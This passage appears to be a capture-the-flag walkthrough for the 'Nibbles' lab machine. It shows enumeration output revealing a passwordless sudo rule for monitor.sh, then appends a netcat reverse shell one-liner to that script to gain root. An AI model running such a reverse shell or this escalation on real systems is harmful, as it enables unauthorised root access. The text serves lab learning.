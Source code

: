 ```
[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Wed Feb 14 14:00:19 EST 2024


### SYSTEM ##############################################
[-] Kernel information:
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

<SNIP>


[-] Super user account(s):
root


[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh


<SNIP>


### SCAN COMPLETE ####################################

```

It looks like we can use sudo based on the script results.

If we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a reverse shell one-liner.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

The contents appended to the end.
